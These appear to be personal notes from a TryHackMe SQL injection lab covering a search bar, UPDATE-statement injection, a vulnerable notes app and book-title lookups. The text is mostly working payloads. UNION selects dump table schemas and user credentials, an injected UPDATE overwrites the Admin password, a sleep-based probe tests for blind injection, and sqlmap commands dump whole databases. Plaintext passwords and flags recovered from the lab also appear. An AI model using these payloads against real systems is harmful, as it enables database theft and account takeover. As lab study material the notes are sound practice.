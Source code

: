 #### search bar

search for true item

search for wildcards

construct query

select ? from ? where ? like '%hammer%';

get db type

select ? from ? where ? like '%';-- %';

select ? from ? where ? like '%hammer' AND 1 = sleep(2);-- %';

select ?,?,? from ? where ? like '%hammer' union (select 1,2,3 from dual);-- %';

select ?,?,? from ? where ? like '%hammer' union (select TABLE_NAME, TABLE_SCHEMA, 3 FROM infromation_schema.tables);--

select ?,?,? from ? where ? like '%hammer' union (select column_name,2,3 from information_schema.columns where table_name = 'users');--

select ?,?,? from ? where ? like '%hammer' union (select uLogin, uHash, uType from users);--




Update statement


UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>

```sql
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```

```sql
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```



We can then continue by extract all the column names from the usertable:

```sql
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```



The subquery is using the group_concat() function to dump all the information simultaneously, and the || operator is "concatenate" - it joins together the strings of its operands (sqlite.org).
```
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
```


We can then update the password for the Admin user with the following code:
```
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -


sqlmap -u http://10.10.230.205:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump
```


Vulnerable notes

create a user with the query
	
```	

' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''

'  union select 1,group_concat(password) from users'

sqlmap --tamper tamper/so-tamper.py --url http://10.10.1.134:5000/challenge4/signup --data "username=admin&password=asd" 
--second-url http://10.10.1.134:5000/challenge4/notes -p username --dbms=sqlite --technique=U --no-cast -T users --dump
```

THM{4644c7e157fd5498e7e4026c89650814}


Change Password

create new user admin' -- -:a

login, then change password :b

logout and log back in with admin:b

done,

THM{cd5c4f197d708fda06979f13d8081013}


### book title


SELECT * from books WHERE id = (SELECT id FROM books WHERE title like 'harr%')

') union select 1,2,3,4 from sqlite_master-- -


') union select 1,sqlite_version,3,4 from sqlite_master-- -

3.22.0


SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

') SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -   didn't work


') union select 1,tbl_name,3,4 from sqlite_master-- -


Title: books
3
Author: 4
Title: notes
3
Author: 4
Title: users
3
Author: 4


') UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -  DIDNT WORK


') union select 1,sql,3,4 from users-- -

sqlite3_column_name()

') union select 1,sqlite3_column_name(),3,4 from users-- -


tbl_name column


', title=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users')-- - 




') union select 1,sql,3,4 from sqlite_master where name ='users'-- -


Title: CREATE TABLE users ( id integer primary key, username text unique not null, password text not null )
3
Author: 4


') union select 1,username,password,4 from users-- -


Title: admin

THM{27f8f7ce3c05ca8d6553bc5948a89210}

Author: 4
Title: amanda

Summer2019!

Author: 4
Title: dev

asd

Author: 4
Title: emil

viking123

Author: 4
Title: maja

345m3io4hj3

Author: 4
Title: student

password

Author: 4




### Book 2


Query 1:
SELECT id FROM books WHERE title like '' union select sqlite_version()-- -%'
Query 2:
SELECT * FROM books WHERE id = '3.22.0'


'union select tbl_name from sqlite_master-- -

shows the table books

'union select tbl_name,tbl_name from sqlite_master-- -	 nothing


' union select sql from sqlite_master where name ='books'-- -

Query 1:
SELECT id FROM books WHERE title like '' union select sql from sqlite_master where name ='books'-- -%'
Query 2:
SELECT * FROM books WHERE id = 'CREATE TABLE books (
    id integer primary key,
    title text not null,
    description text not null,
    author text not null
)'

' union select 1,2,3,4 from books-- - nothing

' union select 1,tbl_name from sqlite_master-- -

' union select '-1''union select 1,tbl_name,3,4 from sqlite_master-- -


Title: books

3

Author: 4
Title: notes

3

Author: 4
Title: users

3

Author: 4



' union select '-1''

' union select '-1'' union select 1,sql,3,4 from sqlite_master where name = 'users'-- -

') union select 1,sql,3,4 from sqlite_master where name ='users'-- -



' union select '-1'' union select 1,username,password,4 from users-- -
